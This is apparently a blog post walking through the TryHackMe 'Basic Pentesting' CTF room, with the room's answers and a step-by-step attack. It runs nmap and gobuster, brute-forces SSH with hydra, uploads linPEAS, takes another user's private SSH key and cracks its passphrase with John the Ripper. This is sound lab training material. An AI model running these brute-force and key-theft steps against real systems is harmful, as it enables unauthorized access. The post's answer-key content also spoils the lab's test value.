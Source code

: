 ```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [CTF, thm, easy, nmap]
---
```

# Task 1 Web App Testing and Privilege Escalation
In these set of tasks you'll learn the following:
 - brute forcing
 - hash cracking
 - service enumeration
 - Linux Enumeration

## Questions:
1. What is the name of the hidden directory on the web server(enter name without /)?
```
development
```
2. What is the username?
```
jan
```
3. What is the password?
```
armando
```
4. What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```
5. What is the name of the other user you found(all lower case)?
```
kay
```
6. What is the final password you obtain
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
---
## MyWalk:
Beginning with an nmap scan, and save the results on nmap/initial for future reference:
```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46

```
Now I'll enumerate any directories available:
```bash
gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```
<span style="color:green;">Q1 done</span>
http://10.10.40.46/development give us 2 files referencing development messages between two users.
Lets use enum4linux:
```bash
/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log
```
Users 'kay' and 'jan' found.
<span style="color:green;">Q2 & Q5 done</span>
Now I try to get the 'jan' password using brute force, and get answer to Q3:
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4
```
jan:armando <span style="color:green;">Q3 done</span>
Now I'll try to login with shh credentials:
```bash
ssh jan@10.10.40.46
```
After sucessfull connection <span style="color:green;">Q4 done</span>. We will try some commands now:
```bash
jan@basic2:~$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Apr 23 2018 .
drwxr-xr-x 4 root root 4096 Apr 19 2018 ..
-rw------- 1 root jan 47 Apr 23 2018 .lesshst
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cat .lesshst
cat: .lesshst: Permission denied
jan@basic2:~$ cat /etc/passd
cat: /etc/passd: No such file or directory
jan@basic2:~$ sudo -l
[sudo] password for jan:
Sorry, user jan may not run sudo on basic2.
jan@basic2:~$ cd ..
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cat .viminfo
cat: .viminfo: Permission denied
```
Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:
```bash
scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm
```
Checking the target:
```bash
jan@basic2:~$ cd /dev/shm
jan@basic2:/dev/shm$ ls
linpeas.sh
```
Run it (on target):
```bash
./linpeas.sh | tee linlog.txt
```
Found a id_rsa key. Past it in a file using nano and mark it as read only by us.
Now lets connect with the key of 'kay' user:
```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa
After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.
First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:
```bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
```
Now run john with the key against the rockyou.txt:
```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
we can see the paraphrase is 'beeswax'
Lets try to login again as kay:
```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
Entering the paraphrase password 'beeswax' and success!
Now is possible to read the pass.bak file and <span style="color:green;">Q6 done</span>
---
#### Tools:
- nmap
- gobuster
- enum4linux
- hydra
- linPEAS
- johntheripper